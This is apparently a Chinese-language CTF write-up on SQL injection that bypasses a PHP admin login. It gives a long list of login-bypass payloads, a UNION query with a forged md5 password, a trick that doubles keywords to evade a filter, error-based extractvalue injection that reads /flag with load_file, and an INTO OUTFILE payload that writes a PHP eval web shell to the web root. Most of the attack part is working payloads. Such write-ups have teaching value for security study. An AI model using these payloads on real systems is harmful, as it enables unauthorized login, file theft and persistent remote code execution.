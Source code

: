 
# SQL注入 Union 万能密码绕过登录验证

## 常见的绕过登录验证方式：

### 万能密码：

```sql
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1

```

### BurpSuite 弱口令爆破：

![bp](bp.jpg)

## 针对本次题目的解法总结：

### 查看登录验证源码：

```php
function check_login($user,$password){
	$rel=$GLOBALS['mysql']->fetch_asc("select id,admin_name,admin_password,admin_purview,is_disable from ".DB_PRE."admin where admin_name='".$user."' limit 0,1");	
	$rel=empty($rel)?'':$rel[0];
	if(empty($rel)){
		msg('不存在该管理用户','login.php');
	}
	$password=md5($password);
	if($password!=$rel['admin_password']){
		msg("输入的密码不正确");
	}
	if($rel['is_disable']){
		msg('该账号已经被锁定,无法登陆');
	}
	
	$_SESSION['admin']=$rel['admin_name'];
	$_SESSION['admin_purview']=$rel['admin_purview'];
	$_SESSION['admin_id']=$rel['id'];
	$_SESSION['admin_time']=time();
	$_SESSION['login_in']=1;
	$_SESSION['login_time']=time();
	$ip=fl_value(get_ip());
	$ip=fl_html($ip);
	$_SESSION['admin_ip']=$ip;
	unset($rel);
	header("location:admin.php");
}
```

可以判断是先验证用户名，然后通过用户名查询到结果来校验密码项，并且对传入的 password 参数进行了md5 加密，因此可以用 union 构造一个虚表覆盖掉查询结果，payload 如下：

```sql
admin' union select 1,1,md5('password'),1,0;#
```

其中 admin 和 password 可以是任意值，只需要在密码登录框填入相同的password 值即可；提交后发现被过滤了关键词：

![error](error.jpg)

### 查看源码发现过滤代码：

```php
function fl_value($str){
	if(empty($str)){return;}
	return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}
```

### 重新构造 payload 即可成功登录：

```sql
admin' uni*on selselectect 1,1,md5('password'),1,0;#
```

### 因为出现了数据库报错，可以进一步利用报错注入：

查询数据库：

```sql
admin'^extractvalue(0x0a,concat(0x0a,(seselectlect database())));#
```

用 load_file() 获取flag：

```sql
1'^extractvalue(0x0a,concat(0x0a,(load_file('/flag'))));#
1'^extractvalue(0x0a,concat(0x0a,right((load_file('/flag')),30)));#
```

![flag_1](flag_1.jpg)

![flag2](flag2.jpg)

由于extractvalue(）返回长度限制，需要拼接得到 flag。

### 甚至可以使用 into outfile 写入一句话木马：

```sql
1'un*ion seselectlect 1,1,md5(1),'<?php @eval($_POST[1])?>',0 in*to ououtfiletfile '/var/www/html/shell.php';#
```
